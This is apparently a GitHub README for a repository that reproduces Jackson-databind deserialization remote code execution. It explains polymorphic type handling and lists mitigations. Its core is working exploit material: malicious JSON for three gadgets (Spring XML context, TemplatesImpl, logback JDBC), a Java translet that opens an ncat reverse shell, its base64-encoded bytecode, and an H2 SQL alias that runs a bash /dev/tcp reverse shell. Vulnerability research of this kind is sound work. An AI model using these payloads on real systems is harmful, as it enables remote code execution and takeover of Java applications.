



<!-- PROJECT LOGO -->
<br />

  <h3 align="center">Jackson-databind Remote Code Execution </h3>

  <p align="center">
  </p>

</p>


<!-- TABLE OF CONTENTS -->

<details open="open">
  <summary><h2 style="display: inline-block">Table of Contents</h2></summary>
  <ol>
    <li>
      <a href="#about-the-project">About The Project</a>
    </li>
    <li>
      <a href="#jackson-deserialization-vulnerability">Jackson Deserialization Vulnerability</a>
    </li>
    <li>
      <a href="#getting-started">Getting Started</a>
      <ul>
        <li><a href="#prerequisites">Prerequisites</a></li>
        <li><a href="#installation">Installation</a></li>
      </ul>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#contributing">Contributing</a></li>
    <li><a href="#license">License</a></li>
  </ol>
</details>


<!-- ABOUT THE PROJECT -->
## About The Project

The project contains the code to reproduce Jackson-databind vulnerability leveraging some known gadgets.  

<!-- GETTING STARTED -->

## Jackson Deserialization Vulnerability

Jackson is a Java library which allow to serialize POJO (Plain Old Java Objects) to JSON and deserialize JSON to POJO. 
It is possible to exploit a vulnerability by leveraging the Polymorphic Type Handling. 

The Polymorphic Type Handling is a mechanism used to serialize and deserialize POJO with a polymorphic behavior. 
For example, having the following classes:

```java
public class Car {
	
	public Engine engine;
	public String color;
	public String model;
	
	public Car(String color, String model, Engine eng) {
		this.color = color;
		this.model = model;
		this.engine = eng;
	}	
	public Car() {}
}

abstract class Engine{
	public int engineModel;
	public int cc;
}

public class FuelEngine extends Engine {
	public int fuel;
	
	public FuelEngine() {}
}

public class ElectricEngine extends Engine{
	public int maxEnergy;
			
	public ElectricEngine() {}

}

```

If we try to serialize the a *Car* object, it works. But if we try to deserialize it, fails

```java
public class App 
{
	public static void main( String[] args ) throws Exception
    {
    		ObjectMapper objectMapper = new ObjectMapper();
        ElectricEngine engine = new ElectricEngine(); 
		
				Car car = new Car();
				car.engine = engine;

    		Car car = new Car("yellow", "fiat", engine);
    		//Serialize => OK
				objectMapper.writeValue(new File("target/car.json"), car);
    		
    		//Deserialize => FAIL
    		Car newCar = objectMapper.readValue(new File("target/car.json"), Car.class);
    }
}

```

and we get the following error:

```
Exception in thread "main" com.fasterxml.jackson.databind.JsonMappingException: Can not construct instance of Jackson.JacksonDemo.Engine, problem: abstract types either need to be mapped to concrete types, have custom deserializer, or be instantiated with additional type information
```

because Jackson can not create an instance of an abstract type and it does not know which concrete object should be create. 

```json
{"engine":{"engineModel":1,"cc":100,"maxEnergy":100},"secEngine":{"engineModel":1,"cc":100,"maxEnergy":100},"color":null,"model":null}
```

We can allow **Polymorphic Type Handling** in two different ways:

1. By using Object Mapper:

   ```java
   objectMapper.enableDefaultTyping(); // defaults to OBJECT_AND_NON_CONCRETE
   objectMapper.enableDefaultTyping(ObjectMapper.DefaultTyping.NON_FINAL);
   ```

   *ObjectMapper* can be set in order to choose on which types must be applied the Polimorphic Type Handling:

   - JAVA_LANG_OBJECT: only affects properties of type `Object.class`
   - OBJECT_AND_NON_CONCRETE: affects `Object.class` and all non-concrete types (abstract classes, interfaces) 
   - NON_CONCRETE_AND_ARRAYS: same as above, and all array types of the same (direct elements are non-concrete types or `Object.class`) 
   - NON_FINAL: affects all types that are not declared 'final', and array types of non-final element types.

2. By using the annotations (either on the single properties or on the abstract classes ). This is the recommended method because it is more granular:

   ```java
   @JsonTypeInfo(use=JsonTypeInfo.Id.CLASS, include=JsonTypeInfo.As.PROPERTY, property="@class")
   ```

   All the instances of the annotated properties and classes will use the settings of the annotations. The parameters of the annotation are:

   1. JsonTypeInfo.Id.CLASS: it is the *type identifier*; and it specify *what* we want annotate. With *.CLASS* it annotates the entire class path (es: Jackson.JacksonDemo.Car).
      Other options are:

      - *MINIMAL_CLASS*:  Relative Java class name: if the base class and the subclasses are in the same package, it leaves out the package name (es. EletricEngine)
      - *NAME*: it annotates an user-defined name (es: Car)
      - *CUSTOM*: usa custom resolver

      If we want to use *NAME* we must specify it by using the *@JsonSubTypes* annotation. 

      ```java
      @JsonTypeInfo(use=JsonTypeInfo.Id.NAME, include=JsonTypeInfo.As.WRAPPER_OBJECT, property="@class")
        
       @JsonSubTypes({
       @JsonSubTypes.Type(value = EletricEngine.class, name = "ElectricEngine"), })
       
      abstract class Engine{
      	public int engineModel;
      	public int cc;
      }
      ```

3. include=JsonTypeInfo.As.PROPERTY: It specifies *how* the annotations will be write in the JSON file. In case of *.PROPERTY*, the concrete class will be annotate as a JSON property:

   ```json
   {"engine":{"@class":"ElectricEngine","engineModel":1,"cc":100,"maxEnergy":100},"secEngine":{"@class":"FuelEngine","engineModel":0,"cc":0,"fuel":200},"color":null,"model":null}
   ```

   Alternatives are:

   - WRAPPER_OBJECT

     ```json
     {"engine":{"ElectricEngine":{"engineModel":1,"cc":100,"maxEnergy":100}},"secEngine":{"FuelEngine":{"engineModel":0,"cc":0,"fuel":200}},"color":null,"model":null}
     ```

   - WRAPPER_ARRAY

4. property="@class": In use case of *JsonTypeInfo.As.PROPERTY*, it specifies the name of the property

   ```json
   {"engine":{"maxFuel":100,"isEco":1,"maxEnergy":100},"secEngine":{"@nomeproprieta":"Jackson.JacksonDemo.EletricEngine","maxFuel":100,"isEco":1,"maxEnergy":100},"color":null,"model":null}
   ```

Usually writing down the annotations for all the abstract types can be complex and time consuming, so programmers use enabling PTH for all the types through *objectMapper*.

When PTH become dangerous? It should be satisfied the following conditions:

1. Jackson accepts JSON from untrusted sources
2. PTH is enabled for types that could be exploitable. For example it is dangerous to apply PTH for types like java.lang.Object, java.util.Serializable, java.util.Comparable because many Java objects are subtypes of these types. In particular **all** Java object are subtypes of java.lang.Object. 
3. One or more gadgets are available where "available" means the gadgets are in the Java Classpath of the software *and* they are not blacklisted (see Mitigations). 

Let see some dangerous example:

We modify the Car and the Engine class as follows:

```java
public class Car {
	@JsonTypeInfo(use=JsonTypeInfo.Id.CLASS)
	public Object engine;
	@JsonTypeInfo(use=JsonTypeInfo.Id.CLASS)
	public Engine secEngine;
	public String color;
	public String model;
	
	public Car(String color, String model, Engine eng) {
		this.color = color;
		this.model = model;
		this.engine = eng;
	}
	
	public Car() {}
}

abstract class Engine{
	public int engineModel;
	public int cc;
}

```


When we serialize, we get:

```json
{
   "engine":[
      "Jackson.JacksonDemo.ElectricEngine",
      {
         "engineModel":1,
         "cc":100,
         "maxEnergy":100
      }
   ],
   "secEngine":[
      "Jackson.JacksonDemo.FuelEngine",
      {
         "engineModel":0,
         "cc":0,
         "fuel":200
      }
   ],
   "color":null,
   "model":null
}
```

Now, with the same Car and Engine class, we deserialize:

```java
public class App 
{
	public static void main( String[] args ) throws Exception
    {
    	
        ObjectMapper objectMapper = new ObjectMapper();
        Car newCar = objectMapper.readValue(new File("target/car.json"), Car.class);
        System.out.print("Engine type: " + newCar.engine.getClass().getName()));
    		System.out.print("secEngine type: " + newCar.secEngine.getClass().getName()));
    }
}

//OUTPUT:
//Engine type: Jackson.JacksonDemo.ElectricEngine
//secEngine type: Jackson.JacksonDemo.FuelEngine
```

We get a new instance of Car class and *engine* and *secEngine* are correctly interpreted. 

Now we modify the JSON and we add a gadget as *Engine* property:

```
{
   "engine":[
      "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
      {
         "transletBytecodes":[
            "*BYTECODESHERE*"
         ],
         "transletName":"a.b",
         "outputProperties":{
            
         }
      }
   ],
   "secEngine":[
      "Jackson.JacksonDemo.FuelEngine",
      {
         "engineModel":0,
         "cc":0,
         "fuel":200
      }
   ],
   "color":null,
   "model":null
}
```

We get some errors but it is possible to notice that Jackson tries instantiating  a *TemplatesImpl* object! 


This is due to to:

1. com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl is inside Java Classpath
2. com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl is subtype of java.lang.Object

if we try to do the same with *secEngine*:

```json
[
   "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
   {
      "transletBytecodes":[
         "*BYTECODESHERE*"
      ],
      "transletName":"a.b",
      "outputProperties":{
         
      }
   }
]
```



Jackson raises an error where we can read "Invalid type id 'com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl' (for id type 'Id.class'): Class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl **is not assignable to Jackson.JacksonDemo.Engine** (through reference chain: Jackson.JacksonDemo.Car["secEngine"])", because TemplatesImpl is not a subtype of *Engine*

We would have had the same result if we had used *objectMapper.enableDefaultTyping*

```java
ObjectMapper objectMapper = new ObjectMapper();
objectMapper.enableDefaultTyping(); // defaults to OBJECT_AND_NON_CONCRETE
```

How can an attacker exploit this vulnerability?

It's obvious that be able to instantiate an object different from the expected one offers many opportunities for attacks. 
Even if there are limits to overcome:

1. In order to mitigate this issue, recent versions of Jackson blacklist many potential dangerous objects. 
2. The getter and the setter of the gadget should call some methods useful for the attack. 

Let see some gadgets working on Jackson 2.6.2:

## org.springframework.context.support.FileSystemXmlApplicationContext

FileSystemXmlApplicationContext is a class which reads XML Spring configuration from the file path.

We modify the previous JSON file:

```json
{
   "engine":[
      "org.springframework.context.support.FileSystemXmlApplicationContext",
      "http://127.0.0.1:8081/spel.xml"
   ],
   "secEngine":[
      "Jackson.JacksonDemo.FuelEngine",
      {
         "engineModel":0,
         "cc":0,
         "fuel":200
      }
   ],
   "color":null,
   "model":null
}
```

We try to instantiate a FileSystemXMLApplicationContext which reads the *spel.xml* file from the localhost. The spel.xml is:

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="
http://www.springframework.org/schema/beans
http://www.springframework.org/schema/beans/spring-beans.xsd
">
<bean id="pb" class="java.lang.ProcessBuilder">
<constructor-arg>
<array>
<value>/System/Applications/Calculator.app/Contents/MacOS/Calculator</value>
</array>
</constructor-arg>
<property name="whatever" value="#{ pb.start() }"/>
</bean>
</beans>
```

This Spring configuration create a ProcessBuilder object and pass to it as constructor arguments the path of the executable to execute. 
Then, according to the configuration, is create a property inside that object that will start the process itself.




## com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl

We will exploit this library in order to open a remote shell on the computer victim. 
We starts by creating a Java class that extends org.apache.xalan.xsltc.runtime.AbstractTranslet

```java
public class exploit extends org.apache.xalan.xsltc.runtime.AbstractTranslet {
	  public exploit() throws Exception {
		    Process p = Runtime.getRuntime().exec(new String[] { "/usr/local/bin/ncat", "127.0.0.1", "4444" , "-e", "/bin/bash" });
		    p.waitFor();
		    BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
		    String line = "";
		    StringBuffer output = new StringBuffer();
		    while ((line = reader.readLine()) != null) {
		        output.append(line + "\n");
		    }
	  }

	  public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
	  }

	  @Override
	  public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
	  }
}
```

Notice that constructor of the class contains all the necessary stuff to create the revere shell. 
We will insert base64 encoded *exploit* class into the JSON file

```json
{"engine":[ "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
  {
    "transletBytecodes" : ["yv66vgAAADEAegcAAgEAG0phY2tzb24vSmFja3NvbkRlbW8vZXhwbG9pdAcABAEAL29yZy9hcGFjaGUveGFsYW4veHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQAGPGluaXQ+AQADKClWAQAKRXhjZXB0aW9ucwcACQEAE2phdmEvbGFuZy9FeGNlcHRpb24BAARDb2RlCgADAAwMAAUABgcADgEAF2phdmEvbGFuZy9TdHJpbmdCdWlsZGVyCgANAAwKABEAEwcAEgEAEWphdmEvbGFuZy9SdW50aW1lDAAUABUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7BwAXAQAQamF2YS9sYW5nL1N0cmluZwgAGQEAEy91c3IvbG9jYWwvYmluL25jYXQIABsBAAsxMC4xMC4xNC4zMwgAHQEABDQ0NDQIAB8BAAItZQgAIQEACS9iaW4vYmFzaAoAEQAjDAAkACUBAARleGVjAQAoKFtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwoAJwApBwAoAQARamF2YS9sYW5nL1Byb2Nlc3MMACoAKwEAB3dhaXRGb3IBAAMoKUkHAC0BAAxqYXZhL25ldC9VUkwIAC8BAB9odHRwOi8vbG9jYWxob3N0OjgwODAvbWFpbi5odG1sCgAsADEMAAUAMgEAFShMamF2YS9sYW5nL1N0cmluZzspVgcANAEAFmphdmEvaW8vQnVmZmVyZWRSZWFkZXIHADYBABlqYXZhL2lvL0lucHV0U3RyZWFtUmVhZGVyCgAnADgMADkAOgEADmdldElucHV0U3RyZWFtAQAXKClMamF2YS9pby9JbnB1dFN0cmVhbTsKADUAPAwABQA9AQAYKExqYXZhL2lvL0lucHV0U3RyZWFtOylWCgAzAD8MAAUAQAEAEyhMamF2YS9pby9SZWFkZXI7KVYIAEIBAAAHAEQBABZqYXZhL2xhbmcvU3RyaW5nQnVmZmVyCgBDAAwKABYARwwASABJAQAHdmFsdWVPZgEAJihMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9TdHJpbmc7CgANADEIAEwBAAEKCgANAE4MAE8AUAEABmFwcGVuZAEALShMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmdCdWlsZGVyOwoADQBSDABTAFQBAAh0b1N0cmluZwEAFCgpTGphdmEvbGFuZy9TdHJpbmc7CgBDAFYMAE8AVwEALChMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmdCdWZmZXI7CgAzAFkMAFoAVAEACHJlYWRMaW5lAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAHUxKYWNrc29uL0phY2tzb25EZW1vL2V4cGxvaXQ7AQAGcmVzdWx0AQAZTGphdmEvbGFuZy9TdHJpbmdCdWlsZGVyOwEAAXABABNMamF2YS9sYW5nL1Byb2Nlc3M7AQADdXJsAQAOTGphdmEvbmV0L1VSTDsBAAZyZWFkZXIBABhMamF2YS9pby9CdWZmZXJlZFJlYWRlcjsBAARsaW5lAQASTGphdmEvbGFuZy9TdHJpbmc7AQAGb3V0cHV0AQAYTGphdmEvbGFuZy9TdHJpbmdCdWZmZXI7AQAJdHJhbnNmb3JtAQBQKExvcmcvYXBhY2hlL3hhbGFuL3hzbHRjL0RPTTtbTG9yZy9hcGFjaGUveG1sL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYHAG4BAChvcmcvYXBhY2hlL3hhbGFuL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQAIZG9jdW1lbnQBABxMb3JnL2FwYWNoZS94YWxhbi94c2x0Yy9ET007AQAIaGFuZGxlcnMBADFbTG9yZy9hcGFjaGUveG1sL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQBzKExvcmcvYXBhY2hlL3hhbGFuL3hzbHRjL0RPTTtMb3JnL2FwYWNoZS94bWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMb3JnL2FwYWNoZS94bWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGl0ZXJhdG9yAQAkTG9yZy9hcGFjaGUveG1sL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAMExvcmcvYXBhY2hlL3htbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEAClNvdXJjZUZpbGUBAAxleHBsb2l0LmphdmEAIQABAAMAAAAAAAMAAQAFAAYAAgAHAAAABAABAAgACgAAARsABQAHAAAAiSq3AAu7AA1ZtwAPTLgAEAi9ABZZAxIYU1kEEhpTWQUSHFNZBhIeU1kHEiBTtgAiTSy2ACZXuwAsWRIutwAwTrsAM1m7ADVZLLYAN7cAO7cAPjoEEkE6BbsAQ1m3AEU6BqcAHRkGuwANWRkFuABGtwBKEku2AE22AFG2AFVXGQS2AFhZOgXH/96xAAAAAgBbAAAAMgAMAAAADwAEABAADAARADAAEgA1ABMAPwAUAFMAFQBXABYAYAAXAGMAGAB9ABcAiAAaAFwAAABIAAcAAACJAF0AXgAAAAwAfQBfAGAAAQAwAFkAYQBiAAIAPwBKAGMAZAADAFMANgBlAGYABABXADIAZwBoAAUAYAApAGkAagAGAAEAawBsAAIABwAAAAQAAQBtAAoAAAA/AAAAAwAAAAGxAAAAAgBbAAAABgABAAAAHQBcAAAAIAADAAAAAQBdAF4AAAAAAAEAbwBwAAEAAAABAHEAcgACAAEAawBzAAIABwAAAAQAAQBtAAoAAABJAAAABAAAAAGxAAAAAgBbAAAABgABAAAAIQBcAAAAKgAEAAAAAQBdAF4AAAAAAAEAbwBwAAEAAAABAHQAdQACAAAAAQB2AHcAAwABAHgAAAACAHk="],
    "transletName" : "a.b",
    "outputProperties" : {}
  }
  ],"secEngine":["FuelEngine",{"engineModel":0,"cc":0,"fuel":200}],"color":null,"model":null}

```

After running it, we get the reverse shell 


## ch.qos.logback.core.db.DriverManagerConnectionSource

We will exploit the capability of this class to instatiate a JDBC (Java Database Connectivity). 
A JDBC is a Java API that define how the client may access a database and it is part of JavaSE. 
An example of malicious JSON is

```json
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'"}]
```

During the deserialization of this script, Java will instantiate a DriverManagerConnectionSource object and it call the method setUrl with parameter the string we pass to it. 
Instead if we try to serialize the object, by calling writeValue, the getConnection method will be called as consequence of the setter calls.
Thorugh the getConnection method, DriverManagerConnectionSource downloads the inject.sql file.

The inject.sql file leverage a vulnerability in the H2 Java library which, through the command CREATE ALIAS, permits to execute Java code. The content of inject.sql [^5] is

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
String[] command = {"bash", "-c", cmd};
java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
return s.hasNext() ? s.next() : ""; }
$$;
CALL SHELLEXEC('bash -i &>/dev/tcp/127.0.0.1/4242 0>&1 &')

```

The H2 code allows to call any bash command. Here we create a reverse shell. 

**Mitigations**

We have seen this vulnerability is exploitable only if the three conditions are satisfied. It is also possible to reduce the risk by following some guidelines:

1. Use an up-to-date version of Jackson. In the recent versions, Jackson blacklists some known gadgets making impossible to instantiate some type of Objects. 
2. Use as much as possible annotations instead of the global *enableDefaultTyping*
3. In the annotations, use the *JsonTypeInfo.Id.NAME* options, instead of the *JsonTypeInfo.Id.CLASS* option because it requires the definition of *JsonSubTypes* annotations. 
4. Avoid to apply PTH on java.lang.Object, java.lang.Serializable or java.util.Comparable objects. 


----

[^1 ]: https://cowtowncoder.medium.com/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062
[^2]: https://github.com/irsl/jackson-rce-via-spel
[^3]: https://github.com/FasterXML/jackson-docs/wiki/JacksonPolymorphicDeserialization
[^4]: https://blog.doyensec.com/2019/07/22/jackson-gadgets.html
[^5]: https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html
[^6]: https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2018/jackson_deserialization.pdf


## Getting Started

### Prerequisites

It might be useful to read  <a href="#jackson-deserialization-vulnerability">Jackson Deserialization Vulnerability</a> section.

### Installation

1. Clone the repo
   ```sh
   git clone https://github.com/lorenzodegiorgi/jackson-deserialization-vulnerabilty.git
   ```

## Usage

This repository contains 3 different malicious JSON file:

1. car_jdbc.json which leverage *ch.qos.logback.core.db.DriverManagerConnectionSource* gadget
2. car_spring.json which leverage *org.springframework.context.support.FileSystemXmlApplicationContext* gadget
3. car_xalan.json which leverage *com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl* gadget

Use the variable in App.java

```java
String exploit_JSON = "car_spring.json";
```

to choose the malicious JSON.

Note:

- to exploit *ch.qos.logback.core.db.DriverManagerConnectionSource* gadget it is necessary to uncomment the following line:

  ```java
  objectMapper.writeValue(new File("target/car_w.json"), newCar);
  ```

- if you want to modify exploit.java class to exploit com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl gadget, then you must base64 encode the class and add the encoding into the *car_xalan.json* file.

## Contributing

Contributions are what make the open source community such an amazing place to be learn, inspire, and create. Any contributions you make are **greatly appreciated**.

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/AmazingFeature`)
3. Commit your Changes (`git commit -m 'Add some AmazingFeature'`)
4. Push to the Branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request


<!-- LICENSE -->

## License

Distributed under the MIT License. See `LICENSE` for more information.

